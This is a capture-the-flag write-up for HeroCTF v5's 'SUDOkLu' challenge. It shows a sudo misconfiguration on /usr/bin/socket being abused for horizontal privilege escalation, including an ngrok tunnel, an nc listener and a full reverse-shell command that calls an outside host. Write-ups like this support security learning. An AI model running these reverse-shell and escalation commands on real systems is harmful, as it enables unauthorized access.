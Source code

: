 # SUDOkLu

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- 199 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This is a warmup to get you going. Your task is to read `/home/privilegeduser/flag.txt`. For our new commers, the title might steer you in the right direction ;). Good luck!  
  
Credentials: `user:password123`  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513161445.png)

## Enumeration

**In this challenge, we can SSH into user `user`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:15:23(HKT)]
└> ssh user@dyn-03.heroctf.fr -p 12297     
[...]
user@dyn-03.heroctf.fr's password: 
[...]
user@sudoklu:~$ whoami;hostname;id
user
sudoklu
uid=1000(user) gid=1000(user) groups=1000(user)
```

**In `/etc/passwd` and `/home` directory, there's a `privilegeduser`:**
```shell
user@sudoklu:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:,,,:/home/user:/bin/bash
privilegeduser:x:1001:1001:,,,:/home/privilegeduser:/bin/bash
user@sudoklu:~$ ls -lah /home
total 20K
drwxr-xr-x 1 root           root           4.0K May 12 10:35 .
drwxr-xr-x 1 root           root           4.0K May 13 08:15 ..
drwxr-x--- 1 privilegeduser privilegeduser 4.0K May 12 10:36 privilegeduser
drwxr-x--- 1 user           user           4.0K May 13 08:15 user
```

Our goal is to access `privilegeduser` home directory and read the flag.

**One of the common privilege escalation in Linux is Sudo permission:**
```shell
user@sudoklu:~$ sudo -l
Matching Defaults entries for user on sudoklu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user may run the following commands on sudoklu:
    (privilegeduser) NOPASSWD: /usr/bin/socket
```

As you can see, user `privilegeduser` can run `/usr/bin/socket` **without password**.

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/socket/), we can get a reverse shell!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230513161815.png)

**To do so, we first fire up a port forwarding service, like Ngrok: (This is because the instance machine can't reach to our local network)**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:27(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:18001 -> localhost:4444
[...]
```

**Then, setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:39(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

**Finally, send the reverse shell payload:**
```shell
user@sudoklu:~$ sudo -u privilegeduser /usr/bin/socket -qvp '/bin/bash -i' 0.tcp.ap.ngrok.io 18001
inet: connected to 0.tcp.ap.ngrok.io port 18001
```

```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/SUDOkLu)-[2023.05.13|16:19:39(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35586
privilegeduser@sudoklu:/home/user$ 
```

**Nice! We got a shell! Let's read the flag!**
```shell
privilegeduser@sudoklu:/home/user$ cd ~
cd ~
privilegeduser@sudoklu:~$ ls -lah
ls -lah
total 28K
drwxr-x--- 1 privilegeduser privilegeduser 4.0K May 12 10:36 .
drwxr-xr-x 1 root           root           4.0K May 12 10:35 ..
lrwxrwxrwx 1 root           root              9 May 12 10:36 .bash_history -> /dev/null
-rw-r--r-- 1 privilegeduser privilegeduser  220 May 12 10:35 .bash_logout
-rw-r--r-- 1 privilegeduser privilegeduser 3.7K May 12 10:35 .bashrc
-rw-r--r-- 1 privilegeduser privilegeduser  807 May 12 10:35 .profile
-r-------- 1 privilegeduser privilegeduser   34 May 12 10:36 flag.txt
privilegeduser@sudoklu:~$ cat flag.txt
cat flag.txt
Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}
```

- **Flag: `Hero{ch3ck_f0r_m1sc0nf1gur4t1on5}`**

## Conclusion

What we've learned:

1. Horizontal Privilege Escalation Via Misconfigurated `/usr/bin/socket` Sudo Permission